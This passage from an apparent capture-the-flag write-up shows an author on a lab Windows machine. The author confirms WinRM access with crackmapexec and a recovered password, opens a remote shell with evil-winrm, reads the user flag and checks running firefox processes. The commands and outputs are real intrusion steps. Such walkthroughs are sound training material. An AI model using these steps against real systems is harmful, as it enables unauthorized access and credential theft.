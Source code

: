 We can also test if we have access to winrm using this account and find that we do:
```
% crackmapexec winrm 10.10.10.149 -u "Chase" -p "Q4)sJu\Y8qz*A3?d"
WINRM       10.10.10.149    5985   NONE             [*] None (name:10.10.10.149) (domain:None)
WINRM       10.10.10.149    5985   NONE             [*] http://10.10.10.149:5985/wsman
WINRM       10.10.10.149    5985   NONE             [+] None\Chase:Q4)sJu\Y8qz*A3?d (Pwn3d!)
```

We can use evil-rm to get a shell as the Chase user:
```
% docker run --rm -ti --name evil-winrm oscarakaelvis/evil-winrm -i $IP -u "Chase" -p "Q4)sJu\Y8qz*A3?d"

Evil-WinRM shell v3.0

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Chase\Documents> ls


    Directory: C:\Users\Chase\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         8/1/2021   2:15 AM      304585033 firefox.exe_210801_021538.dmp
-a----         8/1/2021   2:07 AM         401288 procdump64.exe


*Evil-WinRM* PS C:\Users\Chase\Documents> cd "C:/Users/Chase/Desktop/"
*Evil-WinRM* PS C:\Users\Chase\Desktop> ls


    Directory: C:\Users\Chase\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        4/22/2019   9:08 AM            121 todo.txt
-a----        4/22/2019   9:07 AM             32 user.txt


*Evil-WinRM* PS C:\Users\Chase\Desktop> cat user.txt
a127daef77ab6d9d92008653295f59c4
```

We start doing some recon and identify that firefox is running which is unexpected for a boot2root vm:
```
*Evil-WinRM* PS C:\Users\Chase\Documents> Get-process | where-object { $_.ProcessName -match "firefox" }

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
    386      28    22008     308200       0.77   5836   1 firefox
    355      25    16364     297280       0.19   6428   1 firefox
   1034      62   120348     475508       8.11   6592   1 firefox
    347      19     9792     286360       0.38   6816   1 firefox
    401      33    28884     332020       1.86   6932   1 firefox
```
